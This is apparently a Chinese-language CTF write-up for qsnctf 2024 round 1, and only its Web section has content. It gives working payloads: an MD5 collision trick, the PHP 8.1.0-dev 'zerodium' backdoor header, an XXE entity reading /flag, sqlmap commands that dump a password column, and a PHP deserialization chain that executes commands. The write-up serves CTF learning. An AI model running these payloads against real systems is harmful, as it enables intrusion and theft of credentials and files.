








# qsnctf#2024round1


## Web

### EasyMD5
> 题目描述：php没有难题

题目需要提交两个pdf文件，根据题名知道，需要两个md5值相同的文件
使用fastcoll这个工具，这个工具可以对文件的md5进行碰撞，
```bash
$ wine fastcoll_v1.0.0.5.exe 1.pdf
MD5 collision generator v1.5
by Marc Stevens (http://www.win.tue.nl/hashclash/)

Using output filenames: '1_msg1.pdf' and '1_msg2.pdf'
Using prefixfile: '1.pdf'
Using initial value: fc973272a5af2bc4d379714aeecefc9b

Generating first block: ............
Generating second block: W.............
Running time: 4.163 s

$ ls
1_msg1.pdf  1_msg2.pdf  1.pdf  fastcoll_v1.0.0.5.exe
```
上传成功，页面加载一秒后会跳转.代码中有一段
`<meta http-equiv="refresh" content="1;url=index.html">`
会跳转到index.html .
提前把`f12`开发者工具打开，监听网络，勾选持续记录。把生成的`1_msg1.pdf`和`1_msg2.pdf`上传，响应包中既可获得flag



### PHP的后门
> 题目描述：PHP竟然也会有后门这种东西？你知道吗！

打开题目提示：
```txt
欢迎来到这里！
请合理使用当前内容获得FLAG！
你应该知道这是哪个版本的PHP吧！
```
查看响应包的http头部，可知php版本为`PHP/8.1.0-dev`

这个版本的php有个后门远程命令执行

```http
 User-Agentt : zerodiumsystem('cat /flag');
```


### PHP的XXE
> 题目描述
> XXE（XML External Entity）是一种针对XML解析器的攻击技术，也被称为XML外部实体注入攻击。当应用程序解析用户提供的XML输入时，如果没有正确地配置或过滤外部实体，攻击者可以利用这一漏洞执行恶意操作。
> XML允许在文档中定义和使用外部实体，这些实体可以从外部资源（如文件、网络URL等）中获取数据。如果应用程序解析了包含恶意外部实体的XML输入，并且未对外部实体进行适当的处理或限制，攻击者可能会读取敏感文件、执行远程代码或进行其他恶意活动。

看不懂题目  搜索 关键词 [phpinfo xxe](https://www.google.com/search?client=firefox-b-d&q=phpinfo+xxe)

找到文章[PHP环境 XML外部实体注入漏洞（XXE）](https://joker-vip.github.io/2021/12/06/PHP%E7%8E%AF%E5%A2%83%20XML%E5%A4%96%E9%83%A8%E5%AE%9E%E4%BD%93%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%EF%BC%88XXE%EF%BC%89/)

根据文章提示的 `dom.php` 发送payload
```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///flag" >]>
<root>
<name>&xxe;</name>
</root>
```

这题没搞懂，为啥会有其他php文件
```bash
$ tree .
.
├── dom.php # 示例：使用DOMDocument解析body
├── index.php
├── SimpleXMLElement.php # 示例：使用SimpleXMLElement类解析body
└── simplexml_load_string.php # 示例：使用simplexml_load_string函数解析body
```


### Easy_SQLi
> 题目描述: Easy的SQLi

打开题目是个登录框


sqlmap 自动寻找注入点
```bash
sqlmap -u 'http://challenge.qsnctf.com:32522/' --form --batch
```
注入成功，只能时间盲注。
没有waf，查找一段时间的数据，发现flag在users表中的password字段，
```bash
sqlmap -u 'http://challenge.qsnctf.com:32522/' --form -D qsnctf -T users -C password --dump --batch
```

获得flag


### 雏形系统
> 题目描述: 今天是公司里的工程师小王被裁员的日子，但小王并没有闲着。在离开之前，他突发奇想，决定留下一份特别的礼物给公司，于是他设计了一个登录页面的雏形。


dirsearch 扫描
```bash
$ dirsearch -u http://challenge.qsnctf.com:31493/ -e php 

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: php | HTTP method: GET | Threads: 25
Wordlist size: 9411

Output File: /home/anjv/reports/http_challenge.qsnctf.com_31493/__24-03-02_16-22-57.txt

Target: http://challenge.qsnctf.com:31493/

[16:22:57] Starting: 
[16:23:27] 200 -    2KB - /www.zip

Task Completed
```
扫描到www.rar文件
下载解压，有个sqnctf.php文件，去掉混淆，代码如下：
<details>

<summary> 展开代码 </summary>

```php
<?php
    error_reporting(0);
    class shi
    {
        public $next;
        public $pass;
        public function __toString(){
            $this->next::PLZ($this->pass);
        }
    }
    class wo
    {
        public $sex;
        public $age;
        public $intention;
        public function __destruct(){
            echo "Hi Try serialize Me!\n";
            $this->inspect();
        }
        function inspect(){
            if($this->sex=='boy'&&$this->age=='eighteen')
            {
                echo $this->intention;
            }
            echo "🙅18岁🈲";
        }
    }
    class Demo
    {
        public $a;
        static function __callStatic($action, $do)
        {
            global $b;
            $b($do[0]);
        }
    }
    $b = $_POST['password'];
    $a = $_POST['username'];
    @unserialize($a);
    if (!isset($b)) {
        echo "==================PLZ Input Your Name!==================";
    }
    if($a=='admin'&&$b=="'k1fuhu's test demo")
    {
        echo("登录成功");
    }
    ?>
```
</details>

反序列化，
`$b($do[0]);`
这段代码可以造成代码执行。

编写代码，生成payload

<details>
<summary> 展开代码 </summary>

```php
<?php
class shi
    {
        public $next;
        public $pass;
    }
    class wo
    {
        public $sex;
        public $age;
        public $intention;
    }
    class Demo
    {
        public $a;
    }
    $wo = new wo();
    $shi = new shi();
    $demo = new Demo();
    $wo->sex = 'boy';
    $wo->age = 'eighteen';
    $shi->next = $demo;
    $shi->pass = 'cat /flag';
    $wo->intention = $shi;
    $demo->a = '111111';
    echo urlencode(serialize($wo)) ;
    ?>
```

</details>

执行代码生成payload
```bash
$ php ser.php 
O%3A2%3A%22wo%22%3A3%3A%7Bs%3A3%3A%22sex%22%3Bs%3A3%3A%22boy%22%3Bs%3A3%3A%22age%22%3Bs%3A8%3A%22eighteen%22%3Bs%3A9%3A%22intention%22%3BO%3A3%3A%22shi%22%3A2%3A%7Bs%3A4%3A%22next%22%3BO%3A4%3A%22Demo%22%3A1%3A%7Bs%3A1%3A%22a%22%3Bs%3A6%3A%22111111%22%3B%7Ds%3A4%3A%22pass%22%3Bs%3A9%3A%22cat+%2Fflag%22%3B%7D%7DHi
```

发送payload获得flag



## Misc


## Pwn


## Crypto


## Reverse